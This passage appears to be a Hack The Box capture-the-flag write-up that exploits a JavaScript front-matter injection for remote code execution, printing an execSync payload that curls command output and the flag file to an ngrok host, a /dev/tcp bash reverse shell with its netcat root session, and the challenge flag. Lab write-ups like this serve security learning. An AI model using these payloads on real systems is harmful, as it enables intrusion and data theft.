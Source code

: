 #### Command Execution through Curl

The dockerfile shows that curl is installed (or you could guess it). As such you can test it

```
---js
((require("child_process")).execSync("curl http://3e0d-116-14-150-8.ngrok.io/$(whoami)"))
---RCE'
```

```
(base) [hacker@hackerbook tmp]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
127.0.0.1 - - [15/May/2022 09:36:17] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [15/May/2022 09:36:18] code 404, message File not found
127.0.0.1 - - [15/May/2022 09:36:18] "GET /favicon.ico HTTP/1.1" 404 -
127.0.0.1 - - [15/May/2022 10:04:59] code 404, message File not found
127.0.0.1 - - [15/May/2022 10:04:59] "GET /www-data HTTP/1.1" 404 -
```

#### Reverse Shell Payload

```bash
root@a5eeeb6f9ab1:/app/static# /bin/bash -i >& /dev/tcp/192.168.1.6/4444 0>&1
root@a5eeeb6f9ab1:/app/static# 
```

```
(base) [hacker@hackerbook ~]$ nc -nlvp 4444
Connection from 172.17.0.2:54340
root@a5eeeb6f9ab1:/app/static# whoami
whoami
root
root@a5eeeb6f9ab1:/app/static# ^CExiting.
(base) [hacker@hackerbook ~]$ 
```


### Final Exploit

I just accessed the flag directly using curl to redirect the command execution.

```
---js
((require("child_process")).execSync("curl http://3e0d-116-14-150-8.ngrok.io/$(cat /flag.txt)"))
---RCE'
```

```
127.0.0.1 - - [15/May/2022 10:08:27] code 404, message File not found
127.0.0.1 - - [15/May/2022 10:08:27] "GET /HTBbl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls HTTP/1.1" 404 -
```

I guessed the curly brackets are ommitted due to some url issue, so I added them back in

## Flag

`HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}`
